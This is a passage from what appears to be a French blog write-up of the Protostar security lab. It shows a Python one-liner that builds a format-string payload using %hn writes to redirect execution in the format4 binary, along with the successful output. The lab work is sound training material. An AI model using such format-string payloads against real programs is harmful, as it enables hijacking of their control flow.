 `0x84b4 - 4` donne `33968`. C'est ce qu'il faut écrire après les 4 octets de l'adresse :

```bash
user@protostar:/opt/protostar/bin$ python -c 'import struct; print struct.pack("<I", 0x08049724) + "%33968x" + "%4$hn"' > /tmp/input 
user@protostar:/opt/protostar/bin$ ./format4 < /tmp/input
--- snip ---
code execution redirected! you win
```

Il ne reste que les 3 binaires `final` et ce sera terminé pour ce `Protostar` :)

*Publié le 26 janvier 2023*
